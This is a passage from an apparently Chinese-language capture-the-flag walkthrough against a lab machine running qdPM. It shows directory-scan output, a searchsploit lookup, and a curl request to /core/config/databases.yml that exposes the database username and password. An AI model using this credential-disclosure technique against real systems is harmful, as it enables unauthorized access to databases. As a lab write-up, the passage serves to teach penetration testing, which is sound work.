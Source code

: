```shell
[02:23:57] 403 -  278B  - /.htpasswds
[02:23:57] 403 -  278B  - /.htpasswd_test
[02:23:58] 403 -  278B  - /.php
[02:24:12] 301 -  316B  - /backups  ->  http://172.16.86.143/backups/
[02:24:12] 200 -  744B  - /backups/
[02:24:14] 200 -    0B  - /check.php
[02:24:17] 301 -  313B  - /core  ->  http://172.16.86.143/core/
[02:24:17] 301 -  312B  - /css  ->  http://172.16.86.143/css/
[02:24:22] 200 -  894B  - /favicon.ico
[02:24:26] 301 -  315B  - /images  ->  http://172.16.86.143/images/
[02:24:26] 200 -    2KB - /images/
[02:24:26] 200 -    6KB - /index.php
[02:24:27] 301 -  316B  - /install  ->  http://172.16.86.143/install/
[02:24:27] 200 -    2KB - /install/
[02:24:27] 200 -    2KB - /install/index.php?upgrade/
[02:24:28] 301 -  319B  - /javascript  ->  http://172.16.86.143/javascript/
[02:24:28] 200 -    2KB - /js/
[02:24:32] 200 -  676B  - /manual/index.html
[02:24:32] 301 -  315B  - /manual  ->  http://172.16.86.143/manual/
[02:24:44] 200 -  470B  - /readme.txt
[02:24:46] 200 -   26B  - /robots.txt
[02:24:47] 403 -  278B  - /server-status
[02:24:47] 403 -  278B  - /server-status/
[02:24:54] 301 -  317B  - /template  ->  http://172.16.86.143/template/
[02:24:54] 200 -    2KB - /template/
[02:24:57] 200 -    1KB - /uploads/
[02:24:58] 301 -  316B  - /uploads  ->  http://172.16.86.143/uploads/

Task Completed
```

暂时没有发现什么关键信息泄露。

使用searchsploit测试一下是不是存在什么漏洞：

![image-20231108153032121](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081530253.png)

很幸运，有两个漏洞，比较关键的应该是第二个的密码泄露。

# 3. Exploit

## 1. Get username and password

`searchsploit -x php/webapps/50176.txt`直接告诉我们如何利用该漏洞：

![image-20231108153251184](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081532315.png)

我们可以直接访问http://ipcore/config/databases.yml文件：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ curl http://172.16.86.143/core/config/databases.yml

all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
```